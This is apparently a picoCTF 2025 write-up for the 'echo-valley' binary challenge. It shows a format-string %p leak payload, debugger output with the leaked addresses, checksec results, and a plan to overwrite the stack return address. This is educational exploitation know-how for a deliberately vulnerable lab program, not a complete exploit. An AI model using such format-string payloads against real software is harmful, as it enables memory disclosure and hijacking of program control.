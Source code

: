 ### In GDB
%p - 0x5555555560c1
main - 0x555555555409
return_addr - 0x7fffffffe2a8
stack_addr - 0x7ffff7f9ca00

```
(lldb) continue
Process 564758 resuming
Welcome to the Echo Valley, Try Shouting: 
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
You heard in the distance: 0x5555555560c1|(nil)|0x7ffff7f9ca00|(nil)|0x5555555596b0|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0xa7c70257c|(nil)|(nil)|0xf7a5753e67c48200|0x7fffffffe2d0|0x555555555413|0x1|0x7ffff7dafd90|(nil)|0x555555555401|0x100000000|0x7fffffffe3e8|(nil)|
exit
The Valley Disappears
Process 564758 stopped
* thread #1, name = 'valley', stop reason = breakpoint 2.1
    frame #0: 0x0000555555555400 valley`echo_valley at valley.c:43:1
(lldb) mem read $rsp
0x7fffffffe2c8: 13 54 55 55 55 55 00 00 01 00 00 00 00 00 00 00  .TUUUU..........
0x7fffffffe2d8: 90 fd da f7 ff 7f 00 00 00 00 00 00 00 00 00 00  ................
(lldb) exit
```

### In Shell
%p - 0x55e8931620c1
main - 0x55e893161409

### Writeup
Obvious fmt string exploit. Start by obtaining a leak using %p.

```
[*] '/home/ctf/picoctf-2025/pwn/echo-valley/valley'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

Full RELRO so we'll have to overwrite the return address on the stack meaning we also need a stack leak.